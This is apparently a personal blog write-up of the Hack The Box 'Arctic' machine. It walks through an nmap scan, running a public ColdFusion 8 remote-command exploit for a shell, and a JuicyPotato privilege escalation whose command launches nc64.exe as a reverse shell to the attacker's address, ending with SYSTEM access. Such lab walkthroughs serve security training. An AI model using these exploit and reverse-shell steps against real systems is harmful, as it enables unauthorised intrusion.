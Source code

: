 ```yaml
---
title: "Arctic"
date: 2023-08-10T11:30:03+00:00
tags: ["web","windows", "Adobe ColdFusion 8",”JuicyPotato”]
categories: ["hackthebox"]
author: "0x0Pwn"
image: "/HTB/Arctic.png"
comments: false
description: "This is a friendly windows machine which has a vulnerability due to the low version of Adobe Cold Fusion, which allowed remote command execution." 
---
```


## Room Information

- Room name: Arctic
- Difficulty level: Easy
- Room link: [https://app.hackthebox.com/machines/Arctic](https://app.hackthebox.com/machines/Arctic)

![/HTB/Arctic.png](/HTB/Arctic.png)

## Tools Used

- Nmap
- searchsploit
- gobuster
- smbserver.py
- msfvenom
- juicypotato

## Port Scanning

Other room, other port scan.

```ruby
# Nmap 7.94 scan initiated Wed Aug 30 10:38:36 2023 as: nmap -p- --open -sCV -sS --min-rate 5000 -vvv -n -Pn -oN escaneo 10.10.10.11
Nmap scan report for 10.10.10.11
Host is up, received user-set (0.26s latency).
Scanned at 2023-08-30 10:38:39 EDT for 172s
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE REASON          VERSION
135/tcp   open  msrpc   syn-ack ttl 127 Microsoft Windows RPC
8500/tcp  open  fmtp?   syn-ack ttl 127
49154/tcp open  msrpc   syn-ack ttl 127 Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Aug 30 10:41:31 2023 -- 1 IP address (1 host up) scanned in 175.49 seconds
```

I found 3 open ports, 135(msrpc), 8500(fmtp), 49154(msrpc). So let's focus on the website…

## Enumeration

On this machine I didn’t do any scan with **gobuster** or **wfuzz**…

![Untitled](/HTB/web-arctic.png)

I started to see if this contained anything interesting, but between the page going super slow and not finding anything, I left it and tried something else.

The next thing I did was to search with `searchsploit` for Adobe Cold Fusion, and I found some exploits. I use this:

 

```ruby
┌──(kali㉿kali)-[~/HTB/arctic]
└─$ searchsploit Adobe Cold Fusion                                                               
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Adobe ColdFusion - 'probe.cfm' Cross-Site Scripting                                | cfm/webapps/36067.txt
Adobe ColdFusion - Directory Traversal                                             | multiple/remote/14641.py
Adobe ColdFusion - Directory Traversal (Metasploit)                                | multiple/remote/16985.rb
Adobe ColdFusion 11 - LDAP Java Object Deserialization Remode Code Execution (RCE) | windows/remote/50781.txt
Adobe Coldfusion 11.0.03.292866 - BlazeDS Java Object Deserialization Remote Code  | windows/remote/43993.py
Adobe ColdFusion 2018 - Arbitrary File Upload                                      | multiple/webapps/45979.txt
Adobe ColdFusion 6/7 - User_Agent Error Page Cross-Site Scripting                  | cfm/webapps/29567.txt
Adobe ColdFusion 7 - Multiple Cross-Site Scripting Vulnerabilities                 | cfm/webapps/36172.txt
-> Adobe ColdFusion 8 - Remote Command Execution (RCE)                                | cfm/webapps/50057.py
Adobe ColdFusion 9 - Administrative Authentication Bypass                          | windows/webapps/27755.txt
Adobe ColdFusion 9 - Administrative Authentication Bypass (Metasploit)             | multiple/remote/30210.rb
Adobe ColdFusion < 11 Update 10 - XML External Entity Injection                    | multiple/webapps/40346.py
Adobe ColdFusion APSB13-03 - Remote Multiple Vulnerabilities (Metasploit)          | multiple/remote/24946.rb
Adobe ColdFusion Server 8.0.1 - '/administrator/enter.cfm' Query String Cross-Site | cfm/webapps/33170.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_authenticatewizarduser.cfm' Quer | cfm/webapps/33167.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_logintowizard.cfm' Query String  | cfm/webapps/33169.txt
Adobe ColdFusion Server 8.0.1 - 'administrator/logviewer/searchlog.cfm?startRow' C | cfm/webapps/33168.txt
----------------------------------------------------------------------------------- ---------------------------------
```

## Exploiting

… and with just this and changing some things in the exploit I got an interactive console.

```ruby
┌──(kali㉿kali)-[~/HTB/arctic]
└─$ python 50057.py

Generating a payload...
Payload size: 1495 bytes
Saved as: fbac3fcf841e499cbedd5ec726b26aeb.jsp
...

...
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
**-> arctic\tolis**
```

## Escalation of privileges

The first thing I always do in windows is to see what user we are and if we can access any input flag. In this case I could access to **tolis** flag. The next thing I did was to see the permissions I had.

```ruby
C:\ColdFusion8\runtime\bin>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
**-> SeImpersonatePrivilege        Impersonate a client after authentication Enabled** 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

When I saw that the `SeImpersonatePrivilege` permission was enabled, the vulnerability called `JuicyPotato` came to my mind. 

So I will look for this vulnerability but according to the version of the victim machine because otherwise it would have no effect and we would waste our time. So I made a `systemminfo` to know the windows version. I got the following:

```ruby
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          1/9/2023, 1:34:34 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     6.143 MB
Available Physical Memory: 5.124 MB
Virtual Memory: Max Size:  12.285 MB
Virtual Memory: Available: 11.304 MB
Virtual Memory: In Use:    981 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.11
```

Now that I knew I was dealing with a `Microsoft Windows Server 2008 R2 Standard` all that was left was to look it up on the internet and download the exploit. 

The website → https://github.com/ohpe/juicy-potato/releases

I then passed this file (JuicyPotato.exe) and nc64.exe through the smbserver to the victim machine and ran the following command to get a reverse shell on port 443 which was listening:

```ruby
C:\Windows\Temp\privesc>**JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\Privesc\nc64.exe -e cmd 10.10.14.6 443"
JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\Privesc\nc64.exe -e cmd 10.10.14.6 443"**
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

//THEN

┌──(kali㉿kali)-[~/HTB/arctic]
└─$ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.11] 49803
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
**nt authority\system**
```

![Untitled](/HTB/root-arctic.png)

Then I was root 😎

## Lessons Learned

- What insights did you gain from the room?
    
    I learned more about Adobe Cold Fusion, and JuicyPotato.
    
- Were there any novel tools or techniques employed?
    
    Exploting an Adobe Cold Fusion vuln.
